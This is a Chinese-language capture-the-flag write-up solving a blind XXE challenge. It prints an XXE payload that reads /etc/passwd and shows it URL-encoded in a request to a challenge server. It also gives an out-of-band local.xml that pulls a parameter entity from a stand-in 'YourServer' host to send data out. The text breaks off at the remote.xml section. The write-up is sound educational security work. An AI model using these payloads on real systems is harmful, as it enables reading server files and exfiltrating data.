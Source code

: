 [XML External Entity attack/XXE攻击](https://www.cnblogs.com/tongwen/p/5194483.html)

## 本题解法

首先尝试一个回显的XXE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE flag[
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<root>&file;</root>
```

url编码之后拼接到url中的xmlData参数中:

```url
http://116.85.48.104:5036/gd5Jq3XoKvGKqu5tIH2p/rest/user/nicaicaikan_url_23333_secret?xmlData=%3C%3fxml%20version%3d%221%2e0%22%20encoding%3d%22UTF-8%22%3f%3E%0a%3C%21DOCTYPE%20flag%5b%0a%3C%21ENTITY%20file%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3E%5d%3E%0a%3Croot%3E%26file%3b%3C%2froot%3E
```

根据分析的代码以及实际情况都是返回的：

```
ok~ try to read /flag/hint.txt
```

说明xml解析成功，并且没有hint.txt的数据。

### OOB

> 没有可以直接回传的通道不意味着就不存在 XXE 攻击


因为是blindXXE，所以需要读出的数据放到参数实体中，然后将参数实体拼接到另一个获得外部引用实体的url中，即可把数据带出。这种外带数据的方式称之为OOB(Out of Band)。通过以下这种方式构造两个xml，即可每次攻击不改变提交的xml（local.xml），仅仅更改服务器上的remote.xml就好了。

#### local.xml

提交给nicaicaikan_url_23333_secret的xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE flag[
<!ENTITY % remote SYSTEM "http://YourServer/remote.xml">
%remote;]>
<root/>
```

- 第一行是xml的声明
- 第二行声明一个了文档类型
- 第三行声明了一个名为remote的外部参数实体，内容是远程的remote.xml中的内容
- 第四行在DTD内部引用这个remote的参数实体，也就是说明了remote.xml里也要是合法的DTD
- 第五行要写一个合法的闭合的标签

#### remote.xml

远程服务器的remote.xml
